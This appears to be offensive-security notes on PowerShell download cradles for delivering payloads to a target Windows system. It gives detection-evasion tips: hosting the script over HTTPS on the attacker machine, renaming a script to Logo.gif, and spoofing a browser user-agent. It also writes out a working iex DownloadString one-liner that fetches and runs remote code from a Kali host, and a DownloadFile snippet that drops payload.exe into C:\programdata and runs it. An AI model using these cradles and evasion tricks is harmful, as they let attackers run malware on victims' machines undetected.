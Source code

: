 > Evasion Tips [+]
It should be noted that where possible when hosting your remote PowerShell script, to have an SSL certificate configured on the attacker machine.
This helps in evading over-the-wire heuristics as our traffic will go over HTTPS.
In the previous examples, we simply used HTTP, which could easily be detected.


> Evasion Tips [+]
Another trick we can use which might help in evading basic file extension heuristics is to give our Powershell script a different extension, For instance **Logo.gif**. PowerShell will still execute it as a .ps1 script

```powershell
iex (New-Object Net.WebClient).DownloadString("http://<kali ip>/Logo.gif")
```

> Evasion Tips [+]
Net.WebClient class allows us to specify a custom user-agent string when sending the request to our attacker URL.
This can help us evade detection mechanisms that are flagging on abnormal user-agent strings crossing the wire.
We can do that with the **Headers.Add** method:

```powershell

$downloader.Headers.Add("user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36")
	// we can insert that in the second line of our code. Just after declaring the $downloader variable

```

### Example - DownloadFile
This method will download your executable to disk
Although noisy and not recommended if trying to remain stealthy, its still sometimes a handy method to quickly download a file to the target system.

```powershell

$downloader = New-Object System.Net.WebClient
$payload = "http://<kali ip>/payload.exe"
$local_file = "C:\programdata\payload.exe"
$downloader.DownloadFile($payload, $local_file)

```

Instantiate our System.Net.WebClient class as the $downloader variable
payload URL variable
local_file variable (will save to this location)
Call the object variable with the "DownloadFile" method and our $payload and $local_file variables

- Executing the file once its on our target system can be accomplished using the call operator (&) and variable we created For the payload ($local_file)

```powershell
& $local_file
```

